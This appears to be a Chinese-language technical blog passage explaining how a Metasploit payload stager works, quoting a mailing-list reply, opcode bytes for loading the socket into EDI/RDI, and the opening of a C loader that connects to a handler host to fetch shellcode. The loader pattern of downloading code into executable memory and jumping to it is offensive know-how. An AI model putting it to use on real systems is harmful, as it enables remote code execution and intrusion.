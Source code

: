 里面提到流程以及关键点

**流程**

> No tutorials that I know of, but here are the basic steps:
> 
> * connect to the handler
> * read a 4-byte length
> * allocate a length-byte buffer
> * mark it as writable and executable (on Windows you'll need
> VirtualProtect for this)
> * read length bytes into that buffer
> * jump to the buffer. easiest way to do this in C is cast it to a
> function pointer and call it.

**关键点**

> Assuming this is for X86 arch, you have to make sure that the EDI
> register contains your socket descriptor (the value of the ConnectSocket
> variable). You can do this via inline asm, but it might be easier to
> just prepend the 5 bytes for setting it to your shellcode:
> 
> BF 78 56 34 12           mov edi, 0x12345678
> 
> For 64 bit, you have to use the RDI register (and need 10 bytes):
> 
> 48 BF 78 56 34 12 00 00 00 00     mov rdi, 0x12345678
> 
> 
> Hope this helps,
> 
> 
> Michael
> 
> PS: This is the reason why the calling convention within Metasploit is
> called "sockedi" :-)
> 

也就是说主要的流程大致上就是

1. tcp连接
2. 读取socket前四个byte，这个为后面的载荷的长度
3. 分配可读可写可执行的内存，把载荷塞进去
4. 注意这段载荷的前面需要手动加 `mov edi, &socket`
5. 然后跳转到这块内存进行执行

实现起来并不困难，但是有些奇怪的点，比如为什么需要手动把edi的值设置为socket的地址？这个我们先放一放，看看一些loader的源码

**首先是[cobalt strike作者的](https://github.com/rsmudge/metasploit-loader)**

```c
int main(int argc, char * argv[]) {
	ULONG32 size;
	char * buffer;
	void (*function)();

	winsock_init();

	if (argc != 3) {
		printf("%s [host] [port]\n", argv[0]);
		exit(1);
	}

	/* connect to the handler */
	SOCKET my_socket = wsconnect(argv[1], atoi(argv[2]));

	/* read the 4-byte length */
	int count = recv(my_socket, (char *)&size, 4, 0);
```